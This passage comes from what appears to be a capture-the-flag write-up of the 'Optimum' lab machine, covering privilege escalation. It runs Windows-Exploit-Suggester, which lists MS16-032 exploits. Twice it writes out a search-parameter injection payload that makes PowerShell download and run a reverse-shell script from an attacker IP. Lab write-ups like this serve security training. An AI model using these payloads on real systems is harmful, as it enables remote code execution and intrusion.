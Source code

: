 ## Privilege Escalation 
To check for windows vulnerabilities different tools can be used such as `sherlock`, `Windows-Exploit-Suggester` and i will use [Windows-Exploit-Suggester](https://github.com/Pwnistry/Windows-Exploit-Suggester-python3) but to run it two files must be available one is the file with `systeminfo` of the machine you want to attack and another file is the database file, you can update the suggester or you can download it form here [Database](https://github.com/SecWiki/windows-kernel-exploits/blob/master/win-exp-suggester/2017-06-14-mssb.xls).

```
┌──(gemstone㉿hashghost)-[~/…/OSCP/Optimum/exploit/Windows-Exploit-Suggester-python3]                                                                                      
└─$ python windows-exploit-suggester.py -i ../systeminfo -d 2017-06-14-mssb.xls
```
**Result**
```
[E]
MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]
  https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]
  https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]
  https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]
  https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
[*]
```
It will indicate some exploits links and also  i need one which will open `poweshell` and not `cmd` also  these exploits wont because of the i get shell as `32` systems then all interpretation is based on that. Now i have to get new shell with `64` .

To know the architecture tun the followings:-
```
PS C:\Users\kostas\Desktop>  [Environment]::Is64BitProcess
False
```
To understand more check [ss64](https://ss64.com/nt/syntax-64bit.html)

To get new shell i should change from
```
/?search=%00{.exec|C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe iex(new-object net.webclient).downloadString('http://10.10.14.27/Invoke-PowerShellTcp.ps1').}
```
To the followings:-
```
/?search=%00{.exec|C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe iex(new-object net.webclient).downloadString('http://10.10.14.27/Invoke-PowerShellTcp.ps1').}
```
I used the same steps a before to get the shell but i only change from `System32` to `SysNative` so now if check for the architecture again.
```
PS C:\Users\kostas\Desktop>[Environment]::Is64BitProcess
True
```
### System user
Here i will use some steps to have the shell as system 
